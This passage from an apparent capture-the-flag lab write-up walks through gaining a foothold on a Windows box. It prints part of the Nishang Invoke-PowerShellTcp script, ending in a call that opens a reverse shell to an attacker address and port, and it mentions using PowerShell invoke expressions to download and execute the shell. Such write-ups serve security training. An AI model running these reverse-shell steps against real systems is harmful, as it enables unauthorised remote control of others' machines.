 I will switch to powershell so that I can use the `invoke` expressions to download and execute our shell

But first I need to test if we have code execution

![RCE Testing](/assets/img/devel/powershell.png)

For the foothold on the box I will use [Nishang](https://github.com/samratashok/nishang).

Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming.

Within the nishang directory I will use a simple reverse shell, `Invoke-PowerShellTcp.ps1` copy it to my working folder and call it `shell.ps1`

```c
-----------snip-------------

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
        Write-Error $_
    }
}
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.7 -Port 9001
```
